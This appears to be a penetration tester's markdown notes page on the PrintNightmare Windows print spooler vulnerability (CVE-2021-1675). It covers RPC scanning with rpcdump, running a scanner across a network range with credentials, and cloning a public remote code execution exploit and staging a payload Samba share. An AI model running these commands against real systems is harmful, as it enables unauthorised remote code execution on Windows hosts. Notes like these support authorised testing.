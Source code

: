 
# Printnightmare

## Requirements

A user account. (privs don't mather)

## Scan

### RPC Dump

If you can reach these RPC interfaces you might be able to use printnightmare.

```bash
rpcdump.py @ip | egrep 'MS-RPRN|MS-PAR'
```

![rpcdump](../../../_resources/rpcdump.png)

### It Was All A Dream

https://github.com/byt3bl33d3r/ItWasAllADream

```bash
git clone https://github.com/byt3bl33d3r/ItWasAllADream
cd ItWasAllADream && docker build -t itwasalladream .
docker run -it itwasalladream -u user -p password -d domain 192.168.1.0/24
docker cp <container-id>:/report_XXXXXXX ./
```

## Setup tool for remote RCE (cube0x0)

Ensure you have a impacket version that has [this PR](https://github.com/SecureAuthCorp/impacket/pull/1109) merged.

```bash
mkdir printnightmare
cd printnightmare
mkdir payloads
git clone https://github.com/justin-p/CVE-2021-1675
```

Then if you are lazy just use the [Taskfile](https://taskfile.dev/#/) included in the repo.

```bash
task payload_folder
task printnightmare_samba_share
```
